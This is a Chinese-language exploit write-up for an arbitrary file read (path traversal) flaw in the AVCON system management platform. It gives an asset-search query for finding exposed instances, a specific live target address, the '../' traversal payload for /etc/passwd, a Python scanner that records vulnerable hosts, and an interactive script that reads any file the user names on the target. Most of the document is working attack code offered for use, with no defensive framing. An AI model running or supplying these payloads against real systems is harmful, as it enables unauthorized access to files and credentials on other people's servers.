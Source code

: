 ## 一、资产搜索

```
title="AVCON-系统管理平台"
```

## 二、网站测试

```
http://124.128.82.98:8082
```

## 三、验证漏洞

payload

```
/download.action?filename=../../../../../../../../etc/passwd
```

![image-20240914112207843](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914112207843.png)

## 四、POC

```
def poc(target):
    payload = "/download.action?filename=../../../../../../../../etc/passwd"
    try:
        res1 = requests.get(url=target,verify=False,timeout=5)
        if res1.status_code == 200:
            res2 = requests.get(url=target+payload,verify=False,timeout=5)
            if "root" in res2.text:
                with open("result.txt","a",encoding='utf-8') as f:
                    f.write(f"{target}\n")
                    f.close()
                    print(f"[+]{target}存在任意文件读取漏洞")
                    return True
            else:
                print(f"[-]{target}不存在任意文件读取漏洞")
        else:
            print("连接超时，请手动测试！！！")
    except Exception as e:
        print(e)
```

## 五、EXP

```
def exp(target):
    while True:
        cmd = input("请输入要查看的文件，从/目录开始，q退出\n>>>>>>>>>>>>>>>>>>>")
        if cmd == 'q':
            exit(0)
        payload = "/download.action?filename=../../../../../../../.."
        try:
            res3 = requests.get(url=target + payload +cmd, verify=False, timeout=5)
            if res3.text != "":
                print(res3.text)
            else:
                print("文件不存在，请重新输入")
        except Exception as e:
            print(e)
```

## 六、测试结果

![image-20240914112530531](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914112530531.png)

![image-20240914113318011](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914113318011.png)

![image-20240914112418674](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914112418674.png)

